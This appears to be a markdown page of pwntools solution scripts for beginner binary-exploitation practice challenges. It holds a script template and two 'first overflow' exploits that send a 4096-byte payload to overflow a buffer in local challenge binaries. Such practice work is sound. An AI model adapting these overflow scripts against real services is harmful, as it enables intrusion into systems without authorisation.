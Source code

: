 ## tmp
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
# io=connect('ip',port)
io=process('/challenge/binary-exploitation-')
elf=ELF('/challenge/binary-exploitation-')
# gdb.attach(io)

def rl():
	io.recvline()
def ru(s):
	io.recvuntil(s)
def sl(s):
	io.sendline(s)
def sd(s):
	io.send(s)

def plt(s):
	return elf.plt[s]
def got(s):
	return elf.got[s]

### code

### 
#
io.interactive()
```
```sh
objdump file -d
```
## your first overflow (easy)
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-first-overflow-w')

def sl(s):
	io.sendline(s)

### code 
pl=b'b'*4096
sl(pl)
### 
#
io.interactive()
```
## your first overflow (hard)
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-first-overflow')

def sl(s):
	io.sendline(s)

### code 
pl=b'b'*4096
sl(pl)
### 
#
```